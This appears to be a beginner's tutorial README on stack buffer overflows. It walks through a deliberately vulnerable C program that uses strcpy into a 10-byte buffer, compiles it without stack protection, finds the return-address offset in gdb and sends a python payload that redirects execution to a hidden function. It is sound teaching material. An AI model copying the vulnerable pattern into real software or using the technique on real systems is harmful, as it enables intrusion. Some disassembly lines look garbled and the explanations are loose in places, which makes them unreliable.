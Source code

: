 # bof

<strong>Buffer overflow</strong> is one of the most common software vulnerability. It happens when we write more data that should be stored in a buffer. 

<p>Let's see one example about it:</p>

```
#include <stdio.h>
#include <string.h>

void secret() {
    printf("You shouldnt be here\n");
}

void function(const char* input) {
    char data[10];
    
    strcpy(data, input);
    
    if (!strcmp(data, "something")) { // " " -> any value until 10 bytes
        printf("normal stuff\n");
    } else {
        printf("Try again\n");
    } 
}

int main (int argc, const char* argv[]) {

    if (argc > 1) {
        function(argv[1]);
    } else {
        printf("You need at least one argument\n");
    }
    
    return 0; 
}
```

<p>There is a problem here: <strong>strcpy</strong>. This function copies the input to destination without having control of the amount, in other words, we can save more than 10 bytes and it will be ok, because the function doesn't check if it matches with the array's total bytes.</p>

<p>Running the code:</p>

```
gcc -m32 overflow.c -o overflow 
./overflow AAAAAAAAAAAAAAAAAAAAAAAAA
```

<p>The result is:</p>

```
Try again. 
*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```

<p>There are several reasons that compilation is aborted, but in this case it may be because we are accessing an invalid memory address (unmapped memory).</p>

<p>Then I write it (in below) to get the old version of gdb because I really want the stack overflow working here, and then I add my input:</p>

```
gcc -m32 overflow.c -o overflow -fno-stack-protector
./overflow AAAAAAAAAAAAAAAAAAAAAAAAA
```

<p>The new result is:</p>

```
Try again.
Segmentation fault (core dumped)
```

<p>I put:</p>

```
gdb overflow
```

<p>Now I can command stuffs to gdb </p>

```
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAA
```

<p>I receive:</p>

```
Starting program: /.../ AAAAAAAAAAAAAAAAAAAAAAAAA
Try Again

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

<p>So I would like to see registers info</p>

```
(gdb) info registers
```

```
eax         0xa      10
ecx         0x56558160      1448444256
edx         0xf7fb7890      -134514544
ebx         0x41414141      1094795585
esp         0xffffd100      0xffffd100
ebp         0x41414141      0x41414141
esi         0xf7fb6000      -134520832
edi         0x0      0      
eip         0x41414141      0x41414141
eflags      0x10282  [ SF UF RF ]
cs          0x23     35
ss          0x2b     43
ds          0x2b     43
es          0x2b     43
fs          0x0      0
gs          0x63     99
```

<p>If I  write it (in below) to get more info about the main function:</p>

```
(gdb) disas main
``` 

<p>I have this result:</p>

``` 
Dump of assembler code for function main:
   0x56555612 <+0>:     lea     0x4(%esp),%ecx
   0x56555616 <+4>:     and     $0xfffffff0,%esp
   0x56555619 <+7>:     pushl   -0x4(%ecx)
   0x5655561c <+10>:    push    %ebp
   0x5655561d <+11>:    mov     %esp,%ebp
   0x5655561f <+13>:    push    %ebx
   0x56555620 <+14>:    push    %ecx
   0x56555621 <+15>:    call    0x5655566b <__x86.get_pc_thunk.ax>
   0x56555626 <+20>:    add     $0x19aa,%eax
   0x5655562b <+25>:    mov     %ecx,%edx
   0x5655562d <+27>:    cmpl    $0x1,(%edx)
   0x56555630 <+30>:    jle     0x56555648 <main+54>
   0x56555632 <+32>:    mov     0x4(%edx),%eax
   0x56555635 <+35>:    add     $0x4,%eax
   0x56555638 <+38>:    mov     (%eax),%eax
   0x5655563a <+40>:    sub     $0x,%esp
   0x5655563d <+43>:    push    %eax
   0x5655563e <+44>:    call    0x565555a8 <function>
   0x56555643 <+49>:    add     $0x10,%esp
   0x56555646 <+52>:    jmp     0x5655565c <main+74>
---Type <return> to continue, or q <return> to quit
   0x56555648 <+54>:    sub     $0xc,%esp
   0x5655564b <+57>:    lea     -0x18a8(%eax),%edx
   0x56555651 <+63>:    push    %edx
   0x56555652 <+64>:    mov     %eax, %ebx
   0x56555654 <+66>:    call    0x56555410 <puts@plt>
   0x56555659 <+71>:    add     $0x10,%esp
   0x5655565c <+74>:    mov     $0x0,%eax
   0x56555661 <+79>:    lea     -0x8(%ebp),%esp
   0x56555664 <+82>:    pop     %ecx
   0x56555665 <+83>:    pop     %ebx
   0x56555666 <+84>:    pop     %ebp
   0x56555667 <+85>:    lea     -0x4(%ecx),%esp
   0x5655566a <+88>:    ret
End of assembler dump.
``` 

<p>As we see, the main funcion calls the function called "function" in +44.</p>

<p>When we execute the CALL instruction to perform the function call, the instruction pointer (eip) of the next instruction will be stored in the stack. Then we change the address to the function address and execute the function. Also, we need to save the address in the stack to know where to go back.</p>

<p>Now we know why the eip has the value 0x41414141,it's because we overwrite the return address on the stack when the function ends. It takes the address from the stack and puts it in the eip, so the processor will execute the instructions from this area, but it's an unmapped region, in other words, segmentation fault occurs.</p>

<p>We're going to explore more about it:</p>

``` 
disas secret
``` 

``` 
Dump of assembler code for function secret:
   0x5655557d <+0>:     push    %ebp
   0x5655557e <+1>:     mov     %ebp,%esp
   0x56555580 <+3>:     push    %ebx
   0x56555581 <+4>:     sub     $esp,%0x4
   0x56555584 <+7>:     call    0x5655566b <__x86.get_pc_thunk.ax>
   0x56555589 <+12>:    add     $0x1a47,%eax
   0x5655558e <+17>:    sub     $0xc,%esp
   0x56555591 <+20>:    lea     -0x18e0(%eax),%edx
   0x56555597 <+26>:    push    %edx
   0x56555598 <+27>:    mov     %eax,%ebx
   0x5655559a <+29>:    call    0x56555410 <puts@plt>
   0x5655559f <+34>:    add     $0x10,%esp
   0x565555a2 <+37>:    nop
   0x565555a3 <+38>:    mov     -0x4(%ebp),%ebx
   0x565555a6 <+41>:    leave
   0x565555a7 <+42>:    ret
End of assembler dump.
``` 

<p>The secret adress is <strong>0x5655557d +0</strong>. How I know this? Just because it is the first instruction on the function. In addition, if I do more tests like using AAAAAAAAAAAAAAAAAAAAAABBBB, the eip changes to 0x42424242. So after 22 bytes (22 times A) we have the saved value of the return function, so let's put 0x5655557d on it.</p>

```
(gdb) run $(python -c 'print "A" * 22 + "\x7d\x55\x55\x56"')
``` 

``` 
Try again.
You shouldnt be here

Program received signal SIGSEGV, Segmentation fault.
0xffffd300 in ?? ()
``` 